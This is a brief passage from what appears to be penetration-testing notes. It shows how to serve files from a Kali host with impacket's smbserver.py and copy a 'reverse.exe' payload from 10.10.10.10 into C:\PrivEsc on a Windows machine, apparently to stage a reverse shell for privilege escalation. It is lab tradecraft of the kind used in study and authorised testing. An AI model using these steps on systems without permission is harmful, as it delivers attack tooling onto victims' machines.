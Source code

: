 
### From Linux to windows - 

Start a simple smb server using  - 
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

Now on windows - 
`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`
